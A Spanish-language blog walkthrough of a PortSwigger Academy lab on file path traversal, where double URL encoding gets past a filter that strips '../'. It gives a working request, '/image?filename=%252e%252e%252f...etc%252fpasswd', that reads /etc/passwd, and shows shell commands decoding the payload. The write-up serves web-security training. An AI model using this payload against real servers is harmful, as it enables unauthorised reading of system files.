



+++
author = "Alux"
title = "Portswigger Academy Learning Path: Directory Traversal Lab 4"
date = "2021-11-28"
description = "Lab: File path traversal, traversal sequences stripped with superfluous URL-decode"
tags = [
    "directory traversal",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

En este <cite>laboratorio[^1]</cite>la finalidad es poder recuperar el archivo `/etc/passwd` todo esto en una vulnerabilidad la cual es la que desplega las imagenes.


## Reconocimiento

La web muestra un post el cual contiene contenido y una imagen.


Hasta ahi todo bien pero viendo burpsuite podemos ver que se hace la peticion para poder recuperar la imagen y mostrarla



## Explotacion

Lo que sabemos es que el backend eliminara los valores ingresados para realizar directory traversal como `../ o /` pero luego de eliminarlo realiza la decodificacion de las entradas de la URL antes de usarla, por lo que podemos codificar los caracteres en formato URL. En este caso para resolverlo debemos usar doble codificacion como vemos, que esta codificado doble lo podemos decodificar por terminal o usando Cyberchef

```bash
echo -n "%252e%252e%252f" | python3 -c "import sys; from urllib.parse import unquote; print(unquote(sys.stdin.read()));"
%2e%2e%2f
echo -n "%2e%2e%2f" | python3 -c "import sys; from urllib.parse import unquote; print(unquote(sys.stdin.read()));"
../
```


Y realizamos la peticion:

```
GET /image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd HTTP/1.1
```

Y obtenemos el archivo `/etc/passwd`



Y con esto hemos resuelto el lab


[^1]: [Laboratorio](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)